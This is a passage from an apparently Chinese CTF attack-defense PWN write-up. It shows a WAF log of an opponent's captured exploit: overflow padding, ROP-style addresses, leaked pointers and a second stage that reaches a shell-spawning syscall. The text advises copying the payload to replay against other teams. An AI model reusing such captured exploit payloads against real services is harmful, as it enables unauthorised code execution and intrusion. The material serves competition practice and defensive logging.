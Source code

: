 ```bash
io.interactive()
```

此时 pwn1 文件夹下就会出现一条日志信息

[![](assets/1709106080-14b9b1afaf886a22c0782617c24c0708.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226231407-afd826be-d4b9-1.png)

打开就能找对应的 payload，直接抄进行反打

```bash
// Date: 2024-02-26 22:59:57
// Mode: CATCH
// CTF AWD PWN WAF
// Deved By I0gan

<-------------------- write ----------------->
try this
This challenge no backdoor!
w_0 = "\x74\x72\x79\x20\x74\x68\x69\x73\x0a\x54\x68\x69\x73\x20\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x20\x6e\x6f\x20\x62\x61\x63\x6b\x64\x6f\x6f\x72\x21"

<-------------------- read ------------------>
aaaaaaaaaaaaaaaa\00\00\00\00\00\00\00\00*@\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00@@\00\00\00\00\000\00\00\00\00\00\00\00@@\00\00\00\00\00@\00\00\00\00\00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\FD@\00\00\00\00\00

r_0 = "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x00\x00\x00\x00\x00\x00\x00\x00\x2a\x13\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x18\x40\x40\x00\x00\x00\x00\x00\x30\x00\x00\x00\x00\x00\x00\x00\x18\x40\x40\x00\x00\x00\x00\x00\x10\x13\x40\x00\x00\x00\x00\x00\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xfd\x11\x40\x00\x00\x00\x00\x00\x0a"

<-------------------- write ----------------->
\80\C2`\00\00\00i`\00\00К`\00\00p`\00\00p@\00\00\00\00\00\00\00\00\00\00\00\00\00This challenge no backdoor!
w_1 = "\x80\xc2\x16\x0e\x60\x7f\x00\x00\x00\x69\x1e\x0e\x60\x7f\x00\x00\xd0\x9a\x0e\x0e\x60\x7f\x00\x00\x70\x19\x0e\x0e\x60\x7f\x00\x00\x70\x10\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x54\x68\x69\x73\x20\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x20\x6e\x6f\x20\x62\x61\x63\x6b\x64\x6f\x6f\x72\x21"

<-------------------- read ------------------>
\00aaaaaaaaaaaaaaaaaaaaaaa@\00\00\00\00\003@\00\00\00\00\00\BD%!`\00\00\90`\00\00

<-------------- dangerous syscall------------>#这里就是获得 shell 了
<-------------- dangerous syscall------------>
```